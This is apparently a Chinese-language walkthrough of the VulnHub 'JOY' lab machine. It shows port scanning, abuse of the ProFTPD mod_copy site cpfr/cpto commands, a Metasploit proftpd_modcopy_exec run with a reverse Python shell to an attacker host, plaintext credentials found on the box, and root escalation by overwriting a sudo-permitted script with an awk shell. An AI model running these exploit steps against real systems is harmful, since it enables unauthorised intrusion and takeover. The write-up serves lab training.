





# digitalworld.local: JOY

> https://download.vulnhub.com/digitalworld/JOY.7z

靶场IP：`192.168.32.201`

扫描对外端口

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.201                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-05 01:35 EDT
Nmap scan report for 192.168.32.201
Host is up (0.00067s latency).
Not shown: 65523 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.2.10
22/tcp  open  ssh         Dropbear sshd 0.34 (protocol 2.0)
25/tcp  open  smtp        Postfix smtpd
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
110/tcp open  pop3        Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
465/tcp open  smtp        Postfix smtpd
587/tcp open  smtp        Postfix smtpd
993/tcp open  ssl/imaps?
995/tcp open  ssl/pop3s?
MAC Address: 00:0C:29:7A:57:E5 (VMware)
Service Info: Hosts: The,  JOY.localdomain, JOY; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.43 seconds

```

ftp匿名访问登录



挂载FTP目录

```
┌──(root💀kali)-[/tmp]
└─# curlftpfs 192.168.32.201   /tmp/ftp -ouser=anonymous                                                                                                                                                                                 1 ⨯
Enter host password for user 'anonymous':
                                                                                                                                                                                                                                             
┌──(root💀kali)-[/tmp]
└─# ls /tmp/ftp
download  upload

```

查看`directory`文件

```
┌──(root💀kali)-[/tmp/ftp/upload]
└─# cat directory 
Patrick's Directory

total 120
drwxr-xr-x 18 patrick patrick 4096 Sep  5 13:50 .
drwxr-xr-x  4 root    root    4096 Jan  6  2019 ..
-rw-------  1 patrick patrick  185 Jan 28  2019 .bash_history
-rw-r--r--  1 patrick patrick  220 Dec 23  2018 .bash_logout
-rw-r--r--  1 patrick patrick 3526 Dec 23  2018 .bashrc
drwx------  7 patrick patrick 4096 Jan 10  2019 .cache
drwx------ 10 patrick patrick 4096 Dec 26  2018 .config
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Desktop
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Documents
drwxr-xr-x  3 patrick patrick 4096 Jan  6  2019 Downloads
-rw-r--r--  1 patrick patrick    0 Sep  5 13:45 EzczfCzOZF7yUwnNToRmUTN9HZNTMGuC.txt
drwx------  3 patrick patrick 4096 Dec 26  2018 .gnupg
-rwxrwxrwx  1 patrick patrick    0 Jan  9  2019 haha
-rw-r--r--  1 patrick patrick   24 Sep  5 13:40 hx4W3WGQZRcoMIQJO6ED5ckNNixeFnqQtcE6DivgoBdb4NouHZXXzreS4CtHgzVH.txt
-rw-r--r--  1 patrick patrick    0 Sep  5 13:35 i27zVrI0kA6yaHsS307x3sZJ6dRerZdc.txt
-rw-------  1 patrick patrick 8532 Jan 28  2019 .ICEauthority
-rw-r--r--  1 patrick patrick    0 Sep  5 13:50 LMASecZUcFAnBQdOioq1EMxcNKdWQIuk.txt
drwxr-xr-x  3 patrick patrick 4096 Dec 26  2018 .local
drwx------  5 patrick patrick 4096 Dec 28  2018 .mozilla
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Music
-rw-r--r--  1 patrick patrick   24 Sep  5 13:45 n3lvgrpKnzVIxNHPNaD519F1C0tNLAJj8JCJZ9D99HCTfUx8VH1bySAWcifgksUK.txt
drwxr-xr-x  2 patrick patrick 4096 Jan  8  2019 .nano
-rw-r--r--  1 patrick patrick   24 Sep  5 13:35 NEHN0fadD1jggs7puHXo7lsFbknWOYxHKHfj7mP2FTd9bKPiieIu9c4hoYGOC0xu.txt
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Pictures
-rw-r--r--  1 patrick patrick   24 Sep  5 13:50 PPk4GvIwAZmkJN1w2kktymJ86REyIdeMkUpGVnXUeTmZjco2P0JxMKUkMW4gySjN.txt
-rw-r--r--  1 patrick patrick  675 Dec 23  2018 .profile
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Public
-rw-r--r--  1 patrick patrick    0 Sep  5 13:40 S2UQsLBUd5AiaERWaGtonnWIwuvMi346.txt
d---------  2 root    root    4096 Jan  9  2019 script
drwx------  2 patrick patrick 4096 Dec 26  2018 .ssh
-rw-r--r--  1 patrick patrick    0 Jan  6  2019 Sun
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Templates
-rw-r--r--  1 patrick patrick    0 Jan  6  2019 .txt
-rw-r--r--  1 patrick patrick  407 Jan 27  2019 version_control
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Videos

You should know where the directory can be accessed.

Information of this Machine!

Linux JOY 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64 GNU/Linux

```

telnet越权访问目录

```
┌──(root💀kali)-[/tmp/ftp/upload]
└─# telnet 192.168.32.201 21 
Trying 192.168.32.201...
Connected to 192.168.32.201.
Escape character is '^]'.
220 The Good Tech Inc. FTP Server
site cpfr /home/patrick/version_control
350 File or directory exists, ready for destination name
site cpto /home/ftp/upload/version_control
250 Copy successful
```

找到FTP版本为：`1.3.5`

```
┌──(root💀kali)-[/tmp/ftp/upload]
└─# ls                                                                                                                                                                                                                                   1 ⨯
directory          project_bravado    project_emilio    project_indigo  project_luyano   project_okacho   project_ronaldinho  project_toto  project_vivino   project_yolo  reminder
project_armadillo  project_desperado  project_flamingo  project_komodo  project_malindo  project_polento  project_sicko       project_uno   project_woranto  project_zoo   version_control
                                                                                                                                                                                                                                             
┌──(root💀kali)-[/tmp/ftp/upload]
└─# cat version_control          
Version Control of External-Facing Services:

Apache: 2.4.25
Dropbear SSH: 0.34
ProFTPd: 1.3.5
Samba: 4.5.12

We should switch to OpenSSH and upgrade ProFTPd.

Note that we have some other configurations in this machine.
1. The webroot is no longer /var/www/html. We have changed it to /var/www/tryingharderisjoy.
2. I am trying to perform some simple bash scripting tutorials. Let me see how it turns out.

```

查找FTP漏洞

```
msf6 > search proftpd 1.3.5

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/unix/ftp/proftpd_modcopy_exec  2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/proftpd_modcopy_exec

```

配置payload

```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set SITEPATH  /var/www/tryingharderisjoy
SITEPATH => /var/www/tryingharderisjoy
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set RHOSTS 192.168.32.201
RHOSTS => 192.168.32.201
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set payload cmd/unix/reverse_python
payload => cmd/unix/reverse_python
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set lhost 192.168.32.130
lhost => 192.168.32.130
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > run

```



找到用户和密码

```
www-data@JOY:/var/www/tryingharderisjoy$ cd ossec
cd ossec
www-data@JOY:/var/www/tryingharderisjoy/ossec$ ls
ls
CONTRIB  README.search     img        lib                  setup.sh
LICENSE  css               index.php  ossec_conf.php       site
README   htaccess_def.txt  js         patricksecretsofjoy  tmp
www-data@JOY:/var/www/tryingharderisjoy/ossec$ cat patricksecretsofjoy
cat patricksecretsofjoy
credentials for JOY:
patrick:apollo098765
root:howtheheckdoiknowwhattherootpasswordis

how would these hack3rs ever find such a page?

```

切换到patrick用户和查看sudo列表

```
www-data@JOY:/var/www/tryingharderisjoy/ossec$ su patrick
su patrick
Password: apollo098765

patrick@JOY:/var/www/tryingharderisjoy/ossec$ sudo -l
sudo -l
Matching Defaults entries for patrick on JOY:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User patrick may run the following commands on JOY:
    (ALL) NOPASSWD: /home/patrick/script/test
patrick@JOY:/var/www/tryingharderisjoy/ossec$ 

```



因此我们决定将 /test 脚本替换为其他恶意脚本，但 /script 目录没有可写权限。



因此，我们再次决定使用 FTP 匿名登录来将真正的 /test 文件替换为伪造的 /test 文件，这将成为提供更高权限 shell 的后门。

```
┌──(root💀kali)-[/tmp/ftp/upload]
└─# echo "awk 'BEGIN {system(\"/bin/bash\")}'" > test                                                            1 ⨯
                                                                                                                     
┌──(root💀kali)-[/tmp/ftp/upload]
└─# cat test
awk 'BEGIN {system("/bin/bash")}'
```

```
┌──(root💀kali)-[/tmp/ftp/upload]
└─# telnet 192.168.32.201 21                                                                                     1 ⨯
Trying 192.168.32.201...
Connected to 192.168.32.201.
Escape character is '^]'.
220 The Good Tech Inc. FTP Server
site cpfr /home/ftp/upload/test
350 File or directory exists, ready for destination name
site cpto /home/patrick/script/test
250 Copy successful

```

提权成功。

